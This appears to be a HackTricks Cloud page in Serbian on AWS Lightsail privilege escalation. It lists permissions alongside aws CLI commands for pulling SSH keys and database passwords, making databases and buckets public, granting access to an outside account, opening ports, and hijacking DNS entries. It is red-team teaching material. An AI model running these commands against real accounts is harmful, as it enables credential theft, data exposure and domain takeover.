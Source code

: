 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Za više informacija o Lightsail-u proverite:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Važno je napomenuti da Lightsail **ne koristi IAM uloge koje pripadaju korisniku** već AWS upravljanom nalogu, tako da ne možete zloupotrebiti ovu uslugu za privesc. Međutim, **osetljivi podaci** kao što su kod, API ključevi i informacije o bazi podataka mogu se naći u ovoj usluzi.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Ova dozvola će vam omogućiti da dobijete SSH ključeve za pristup instancama:
```
aws lightsail download-default-key-pair
```
**Potencijalni uticaj:** Pronaći osetljive informacije unutar instanci.

### `lightsail:GetInstanceAccessDetails`

Ova dozvola će vam omogućiti da generišete SSH ključeve za pristup instancama:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potencijalni uticaj:** Pronaći osetljive informacije unutar instanci.

### `lightsail:CreateBucketAccessKey`

Ova dozvola će vam omogućiti da dobijete ključ za pristup kanti:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potencijalni uticaj:** Pronađite osetljive informacije unutar kante.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ova dozvola će vam omogućiti da dobijete akreditive za pristup bazi podataka:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potencijalni uticaj:** Pronaći osetljive informacije unutar baze podataka.

### `lightsail:UpdateRelationalDatabase`

Ova dozvola će vam omogućiti da promenite lozinku za pristup bazi podataka:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Ako baza podataka nije javna, možete je takođe učiniti javnom sa ovim dozvolama

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potencijalni uticaj:** Pronaći osetljive informacije unutar baze podataka.

### `lightsail:OpenInstancePublicPorts`

Ova dozvola omogućava otvaranje portova za Internet
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potencijalni uticaj:** Pristup osetljivim portovima.

### `lightsail:PutInstancePublicPorts`

Ova dozvola omogućava otvaranje portova za Internet. Imajte na umu da će poziv zatvoriti bilo koji port koji nije naveden.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potencijalni uticaj:** Pristup osetljivim portovima.

### `lightsail:SetResourceAccessForBucket`

Ova dozvola omogućava dodeljivanje pristupa instancama za bucket bez dodatnih kredencijala.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potencijalni uticaj:** Potencijalni novi pristup kanticama sa osetljivim informacijama.

### `lightsail:UpdateBucket`

Sa ovom dozvolom, napadač bi mogao da dodeli svoj AWS nalog pristup za čitanje kanticama ili čak da učini kante javnim za sve:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potencijalni uticaj:** Potencijalni novi pristup kanticama sa osetljivim informacijama.

### `lightsail:UpdateContainerService`

Sa ovom dozvolom, napadač bi mogao da omogući pristup privatnim ECR-ima iz usluge kontejnera.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potencijalni Uticaj:** Dobijanje osetljivih informacija iz privatnog ECR

### `lightsail:CreateDomainEntry`

Napadač sa ovom dozvolom mogao bi da kreira poddomen i usmeri ga na svoju IP adresu (preuzimanje poddomena), ili da napravi SPF zapis koji mu omogućava da lažira e-poštu sa domena, ili čak da postavi glavni domen na svoju IP adresu.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencijalni Uticaj:** Preuzimanje domena

### `lightsail:UpdateDomainEntry`

Napadač sa ovom dozvolom mogao bi da kreira poddomen i usmeri ga na svoju IP adresu (preuzimanje poddomena), ili da napravi SPF zapis koji mu omogućava da lažira emailove sa domena, ili čak da postavi glavni domen na svoju IP adresu.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencijalni uticaj:** Preuzimanje domena

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
